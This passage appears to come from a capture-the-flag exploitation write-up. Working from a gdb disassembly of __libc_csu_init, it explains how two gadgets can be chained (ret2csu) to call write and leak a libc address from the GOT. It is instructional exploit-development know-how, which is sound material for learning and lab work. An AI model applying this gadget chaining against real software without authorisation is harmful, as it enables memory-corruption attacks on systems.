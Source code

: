 ```gdb
   0x0000000000400981 <+49>:	test   rbp,rbp
   0x0000000000400984 <+52>:	je     0x4009a6 <__libc_csu_init+86>
   0x0000000000400986 <+54>:	xor    ebx,ebx
   0x0000000000400988 <+56>:	nop    DWORD PTR [rax+rax*1+0x0]
   0x0000000000400990 <+64>:	mov    rdx,r15
   0x0000000000400993 <+67>:	mov    rsi,r14
   0x0000000000400996 <+70>:	mov    edi,r13d
   0x0000000000400999 <+73>:	call   QWORD PTR [r12+rbx*8]
   0x000000000040099d <+77>:	add    rbx,0x1
   0x00000000004009a1 <+81>:	cmp    rbp,rbx
   0x00000000004009a4 <+84>:	jne    0x400990 <__libc_csu_init+64>
   0x00000000004009a6 <+86>:	add    rsp,0x8
   0x00000000004009aa <+90>:	pop    rbx
   0x00000000004009ab <+91>:	pop    rbp
   0x00000000004009ac <+92>:	pop    r12
   0x00000000004009ae <+94>:	pop    r13
   0x00000000004009b0 <+96>:	pop    r14
   0x00000000004009b2 <+98>:	pop    r15
   0x00000000004009b4 <+100>:	ret    
End of assembler dump.
```
We see that `rdx` is affected here: `0x0000000000400990 <+64>:	mov    rdx,r15`
The value of `r15` is moved to `rdx` and we have another gadget available that pops r15 at: `   0x00000000004009b2 <+98>:	pop    r15`.

It is obvious that whatever we put in `pop r15` will be moved to `rdx`.  
Apart from that we can see that we can also manipulate `rdi` and `rsi` via `r13` and `r14` respectively.  
Last but not least, we can call whatever there is in `r12` (if we zero out the `rbx`). 

Our goal is to call: `write(1, write@got, 0x8)` in order to leak `write@got`.  
That means we need to:  
* `pop r12` = `write@got` 
* `pop r13` = 1
* `pop r14` = `write@got`
* `pop r15` = 0x8

So, we are going to use these 2 gadgets:

```gdb
Gadget 1:
  0x00000000004009aa <+90>:  pop    rbx
  0x00000000004009ab <+91>:  pop    rbp
  0x00000000004009ac <+92>:  pop    r12
  0x00000000004009ae <+94>:  pop    r13
  0x00000000004009b0 <+96>:  pop    r14
  0x00000000004009b2 <+98>:  pop    r15
  0x00000000004009b4 <+100>: ret

Gadget 2:
  0x0000000000400990 <+64>:  mov    rdx,r15
  0x0000000000400993 <+67>:  mov    rsi,r14
  0x0000000000400996 <+70>:  mov    edi,r13d
  0x0000000000400999 <+73>:  call   QWORD PTR [r12+rbx*8]
```
